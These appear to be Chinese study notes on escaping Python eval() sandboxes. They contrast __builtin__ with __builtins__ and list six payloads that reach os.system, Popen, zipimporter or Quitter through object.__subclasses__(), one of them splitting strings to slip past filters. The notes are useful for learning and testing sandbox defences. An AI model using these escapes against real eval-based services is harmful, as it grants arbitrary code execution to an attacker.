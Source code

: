 参考：
	- https://www.cnblogs.com/iamstudy/articles/python_eval_and_bypass_sandbox_study.html
	- https://blog.51cto.com/xpleaf/1764849

## builtin与builtins的区别与关系
python3  
	python3中只有__builtins__了

python2  

- 在Python中并没有__builtins__这个模块，只有__builtin__模块，而__builtins__模块只是在启动Python解释器时，解释器为我们自动创建的一个到__builtin__模块的引用
- 在主模块__main__中,两者完全一样
- 非主模块中，模块__builtins__其实是对__builtin__的__dict__模块的引用

## 利用
原型：eval(expression[, globals[, locals]])
globals为字典形式,locals为任何映射对象,分别是全局和局部命名空间，如果传入globals字典缺失__builtins__的时候，当前的全局命名空间将作为globals参数输入并且在表达式之前被解析，locals默认和globals相同，如果两个都省略掉话，表达式将在eval()调用的环境里面执行

1. 最简单的
```python
eval(__import__('os').system('dir'))
```

2. 置空无效
本地测试没有成功....  
```python
env = {}
env["locals"]   = None
env["globals"]  = None
env["__name__"] = None
env["__file__"] = None
env["__builtins__"] = None
 
eval(users_str, env)
```

3. 调用egg  
（python2）
```python
# http://pypi.python.org/packages/2.5/C/ConfigObj/configobj-4.4.0-py2.5.egg
[x for x in ().__class__.__bases__[0].__subclasses__() if x.__name__ == "zipimporter"][0]("configobj-4.4.0-py2.5.egg").load_module("configobj").os.system("uname")
```

4. 使程序退出  
（python2）
```python
eval("[x for x in ().__class__.__bases__[0].__subclasses__() if x.__name__=='Quitter'][0](0)()", {'__builtins__':None})
```

5. 事先导入过一些模块
（python2，python3）
```python
import subprocess
eval("[x for x in ().__class__.__bases__[0].__subclasses__() if x.__name__ == 'Popen'][0](['ping','-c','1','127.0.0.1'])", {'__builtins__':None ,'__builtin__':None})
```

6. 寻找含有os模块的类
（python2）
```python
[x for x in [].__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0].__init__.func_globals['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('echo Hello SandBox')
```